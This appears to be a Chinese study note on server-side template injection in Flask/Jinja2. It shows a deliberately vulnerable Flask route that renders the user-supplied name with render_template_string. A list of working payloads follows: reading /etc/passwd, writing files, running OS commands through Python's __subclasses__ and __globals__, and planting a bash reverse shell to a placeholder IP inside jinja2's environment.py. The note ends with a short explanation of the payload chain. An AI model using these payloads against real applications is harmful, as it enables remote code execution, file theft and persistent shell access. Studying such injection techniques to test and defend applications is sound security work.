 # 环境搭建
- Windows 10
- python3
- flask
- jinja2

# 测试代码
```
from flask import Flask, render_template, render_template_string

app = Flask(__name__)  
 
@app.route("/user/<name>")
def user(name):
    template = '''
    <h3>%s</h3>
    '''%(name)
    return render_template_string(template)

if __name__ == "__main__":  
    app.run() 

```
就是把url user后面的name输出出来
> 注意这里面如果使用render_template带入html模板的话就不会产生这个问题，将html模板通过`{%% extends "layout.html" %%}`引入到python中也会出现这个问题

# 常见payload解析
## 常见payload
```
查看配置选项
{{%20config.items()%20}}
python2
#读文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
#写文件：
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/1').write("") }}
#假设在/usr/lib/python2.7/dist-packages/jinja2/environment.py, 弹一个shell
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/usr/lib/python2.7/dist-packages/jinja2/environment.py').write("\nos.system('bash -i >& /dev/tcp/[IP_ADDR]/[PORT] 0>&1')") }}
#代码执行
name=%7B%7B ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/owned.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') %7D%7D
name=%7B%7B config.from_pyfile('/tmp/owned.cfg') %7D%7D 
name=%7B%7B%20config[%27RUNCMD%27](%27/usr/bin/id%27,shell=True)%20%7D%7D
#命令

python3
#命令执行：
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}{% endif %}{% endfor %}
#文件操作
{% for c in [].__class__.__base__.__subclasses__() %}{% if c.__name__=='catch_warnings' %}{{ c.__init__.__globals__['__builtins__'].open('filename', 'r').read() }}{% endif %}{% endfor %}
```
常见的payload的思路都常常是利用python内置的变量属性等出发·通过调用一些隐藏的属性（方法）从而实现代码输入

```
# 命令执行
{% for c in [].__class__.__base__.__subclasses__() %}
	{% if c.__name__=='catch_warnings' %}
		{{ c.__init__.__globals__['__builtins__'].eval("__import__('os').popen('id').read()") }}
	{% endif %}
{% endfor %}
```
- 当输入这段payload的时候，这段标签会被当做模板中的标签来解析
- 首先这个使用了一个循环和if的jinja2的结构找到了一个内置的类catch_warnings，
- 然后通过一个特殊的属性`__globals__`找到了当前函数所在命名空间下的所有变量
`__globals__` *这个属性是python所有函数都包含的一个属性，调用这个属性会返回所在模块命名空间里面的所有变量*
- 然后利用每个python都会加载builtins这个模块而这个模块中有eval、exec、open等函数，然后就构成了代码注入
- 说是这么说，在做还不会

# 相关文档
- 掘金[Flask jinja2模板注入思路总结](https://juejin.im/entry/5a91040ef265da4e9268410ehttps://juejin.im/entry/5a91040ef265da4e9268410e)
- Freebuf[探索Flask/Jinja2中的服务端模版注入](https://www.freebuf.com/articles/web/98619.html)
- csdn[内置函数+内置变量+内置模块](https://blog.csdn.net/nameix/article/details/54341949)
